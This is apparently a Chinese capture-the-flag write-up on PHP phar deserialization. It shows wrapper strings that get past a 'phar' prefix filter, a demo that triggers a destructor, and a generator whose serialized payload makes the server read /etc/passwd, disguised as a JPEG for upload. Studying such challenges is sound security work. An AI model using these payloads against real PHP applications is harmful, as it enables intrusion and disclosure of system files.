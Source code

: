 ```
 ~/桌面 file asdf.phar
asdf.phar: PDF document, version 1.6
```

在生成phar文件后,可以对其文件后缀进行修改,不影响使用

当发生禁止phar开头时,可以用以下协议代替

```
compress.zlib://phar://phar.phar/test.txt
compress.bzip2://phar://phar.phar/test.txt 
php://filter/read=convert.base64-encode/resource=phar://phar.phar/test.txt
```

```php
<?php
    class Demo{
        function __destruct(){
            echo "<br>".$this->name."<br>";
        }
    }
    $filename="php://filter/read=convert.base64-encode/resource=phar://asdf.phar/test.txt";
    file_get_contents($filename);#执行反序列化,输出asdfgh
?>
```

---

题目要生成的phar文件

```php
<?php
class CurlClass
{
}
class MainClass
{
    public function __construct($path)
    {
        $this->call = "httpGet";
        $this->arg = "file://" . $path;
    }
}
$phar = new Phar("asdf.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置存根stub
$test = new MainClass('/etc/passwd');
$test->name = 'asdfgh';
$phar->setMetadata($test); //将自定义的meta-data序列化后存入manifest
$phar->addFromString("test.jpeg", "asdfghjkl"); //phar本质上是对文件的压缩所以要添加要压缩的文件
$phar->stopBuffering();
```

将phar文件修改为jpeg文件,上传即可
